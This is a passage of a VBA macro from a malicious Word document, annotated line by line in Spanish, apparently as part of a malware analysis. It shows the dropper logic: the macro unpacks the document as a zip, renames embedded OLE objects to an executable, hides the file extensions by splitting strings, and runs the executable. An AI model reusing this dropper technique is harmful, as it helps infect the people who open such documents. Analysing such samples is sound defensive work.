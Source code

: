 ```vba
    
    'Asigna a la variable mpath la ruta + nombre del archivo (C:\Users\tmn\Wrdix12\vteijam hdgtra)
    mpath = mfolder & mfile
    
    Dim FSEDEO      As Object
    Set FSEDEO = CreateObject("Scripting.FileSystemObject")
    
    'Se utiliza el método CopyFile, cuya sintaxis es object.CopyFile source, destination, [ overwrite ]
    'Se copia el archivo que se está ejecutando en la ruta almacenada en la variable mfolder, siendo renombrado a domcxs
    'Para ello, se utilizó la función "Replace" para quitar los subguiones a la cadena "do_mc_xs"
    'https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/copyfile-method
    'https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/replace-function
    FSEDEO.CopyFile Application.ActiveDocument.FullName, mfolder & Replace("do_mc_xs", "_", ""), TRUE
    Set FSEDEO = Nothing
    
    'Utilizando la función "Name", se cambia el nombre del archivo previamente copiado a domcxs.zip
    'La sintaxis es Name antiguoNombre As nuevoNombre
    'Se renombra mfolder\domcxs a mfolder\domcxs.zip
    'https://learn.microsoft.com/en-us/office/vba/language/reference/user-interface-help/name-statement
    Name mfolder & Replace("do_mc_xs", "_", "") As mfolder & Replace("do_mc_xs.zi_p", "_", "")
    
    'Extrae el archivo domcxs.zip a la ruta de mfolder
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & Replace("do_mc_xs.zi_p", "_", "")).items
    
    Dim poueeds     As Integer
    Dim filewedum   As String
    
    'Se valida si la versión de Word contiene ".1" y, dependiendo de eso, se asigna el valor a la variable filewedum
    poueeds = InStr(Application.System.Version, ".1")
    filewedum = 2
    If poueeds Then
        filewedum = 1
    End If
    
    'Se renombra el archivo mfolder\word\embeddings\oleObject1.bin a "mfoldder\word\vteijam hdgtra.zip"
    'El contenido de la variable mfile (vteijam hdgtra) fue asignado al inicio de la función
    Name mfolder & "word\embeddings\oleObject1.bin" As mfolder & "word\" & mfile & Replace(".z_ip", "_", "")
    
    'Extrae el contenido de "mfoldder\word\vteijam hdgtra.zip" en la ruta de mfolder
    mShellApplication.Namespace(mfolder).CopyHere mShellApplication.Namespace(mfolder & "word\" & mfile & Replace(".z_ip", "_", "")).items
    
    'Se renombra mfolder\oleObjectfilewedum.bin como mfolder\mfile.exe
    Name mfolder & "oleObject" & filewedum & ".bin" As mfolder & mfile & Replace(".e_xe", "_", "")
    
    'Se ejecuta el comando mfolder\mfile.exe sin cambiar la vista al nuevo proceso
    Shell mfolder & mfile & Replace(".e_xe", "_", ""), vbNormalNoFocus
    
    'Se guarda el archivo mfolder\word\embeddings\oleObject3.bin como C:\users\usuario\Documents\nombreDocumentoMalicioso.docx
    Dim dokc_paeth  As String
    
```